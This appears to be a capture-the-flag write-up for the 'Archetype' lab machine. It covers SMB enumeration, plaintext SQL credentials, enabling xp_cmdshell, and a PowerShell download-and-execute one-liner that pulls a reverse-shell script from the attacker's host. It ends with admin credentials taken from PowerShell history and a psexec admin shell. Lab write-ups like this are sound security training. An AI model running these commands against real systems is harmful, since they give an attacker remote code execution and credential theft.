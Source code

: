 # Archetype

- Machine IP: 10.10.10.27

## nmap scan

```bash
[exyss@exyss Archetype]$ nmap -sC -sV -p1-1024 10.10.10.27 -oN nmap/initial
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h39m15s, deviation: 4h02m32s, median: 19m13s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-01T03:49:09-07:00
```

As we can see, our target is running an an SQL service and an SMB service (Samba)

## SMB Service security analysis

```powershell
[exyss@exyss Archetype]$ smbclient -L 10.10.10.27 -N
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
SMB1 disabled -- no workgroup available
```

We found an existing sharename without password protection. We can try to access this sharepoint using 
`smbclient //10.10.10.27/backups -N`, searching for files to download (Samba can be interacted with using FTP commands, in this case the GET command)q

```bash
[exyss@exyss Archetype]$ smbclient //10.10.10.27/backups -N
smbclient: Can't load /etc/samba/smb.conf - run testparm to debug it
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Mon Jan 20 13:20:57 2020
  ..                                  D        0  Mon Jan 20 13:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 13:23:02 2020

                10328063 blocks of size 4096. 8248285 blocks available
smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (3.4 KiloBytes/sec) (average 3.4 KiloBytes/sec)
smb: \> exit
```

The downloaded file contains the following text:

```xml
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

As we can see, there are two interesting plaintext data regarding the SQL user `ARCHETYPE\sql_svc` and it's password `M3g4c0rp123`.

## Accessing the SQL service

Once we have found the credentials, we can try accessing the SQL service by using Impacket's [mssqlclient.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py) script and trying to run a query to find out if our current user has admin priviledges:

```sql
[exyss@exyss Archetype]$ python https://github.com/SecureAuthCorp/impacket/blob/master/examples/mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands

SQL> SELECT IS_SRVROLEMEMBER('sysadmin')
```

Looks like our user has the system administator permissions, meaning that we have the highest SQL  permissions possible. Knowing this, we can enable XP shell commands directily through the SQL server:

```sql
SQL> EXEC sp_configure 'show advanced options', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE

SQL> sp_configure
name                                      minimum       maximum   config_value     run_value   

-----------------------------------   -----------   -----------   ------------   -----------   

access check cache bucket count                 0         65536              0             0   

.
.
.

SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.

SQL> RECONFIGURE
SQL> xp_cmdshell "whoami"
output                                                                             

--------------------------------------------------------------------------------   

archetype\sql_svc                                                                  

NULL                                                                               

SQL> 
```

Looks like the user that started this SQL server is the same that we already have, however this user doesn't have admin priviledges on the machine, but only on the SQL service.

## Obtaining a reverse shell

Next, we can try to obtain a reverse shell, giving us the ability to run commands on the target machine.

To do this, we have to first write (or find on the Internet :P) a [PowerShell script](scripts/reverse-shell.ps1) that can bounce us back a shell on our machine.
ATTENTION: remember to change the script with YOUR machine's ip address! (In my example this will be 10.10.14.126)

Once we got the script, we can fire up a simple Python server on port 4444 using `python -m http.server 4444` and a netcat listener on port 443 using `sudo nc -lvnp 443`.

Then, we have to change our firewall rules in order to forward the incoming traffic, enabling the communication between our netcat listener (which will receive the bouncing reverse shell) and the server.
We can do this by using UFW and running `ufw allow from 10.10.10.27 proto tcp to 0.0.0.0 port 4444,443`

Then, we have to connect again to the SQL service and run the following command, which will execute our reverse shell script on the target machine:

```sql
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.126:4444/scripts/reverse-shell.ps1\");"
```

Our netcat server will have received the reverse shell, meaning now we have full access to the sql_svc user's files. We can find the flag in `C:\Users\sql_svc\Desktop\user.txt`

## Priviledge escalation

Since this user account is also a service account, there probably are files that include frequently used commands or credentials. We can find one in: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\Powershell\PSReadLine\ConsoleHost_history.txt`:

```powershell
$ type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

Now that we have found the admin password, we can use Impacket's [psexec.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) script to spawn an admin shell, access the admin's desktop and get the flag:

```powershell
[exyss@exyss Archetype]$ python https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py administrator@10.10.10.27
Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.10.27.....
[*] Found writable share ADMIN$
[*] Uploading file iPQjYOen.exe
[*] Opening SVCManager on 10.10.10.27.....
[*] Creating service dmUb on 10.10.10.27.....
[*] Starting service dmUb.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd C:\Users\Administrator\Desktop
C:\Users\Administrator\Desktop>type root.txt
```